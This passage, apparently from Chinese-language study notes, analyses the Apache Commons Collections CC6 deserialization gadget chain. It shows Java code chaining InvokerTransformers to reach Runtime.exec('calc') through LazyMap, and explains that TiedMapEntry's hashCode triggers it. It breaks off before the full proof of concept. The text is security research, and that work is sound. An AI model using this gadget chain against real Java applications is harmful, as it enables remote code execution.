 所以 CommonsCollections1 的后半段还是可以利用的：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;

public class cc6 {

    public static void main(String[] args) throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"calc"})});

        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
    }
}
```

所以需要换一个地方触发 LazyMap#get 方法，这里使用的是 org.apache.commons.collections.keyvalue.TiedMapEntry ，

![1](./img/328.png)

后面的 hashCode 方法触发了：

![1](./img/329.png)

此时POC为：
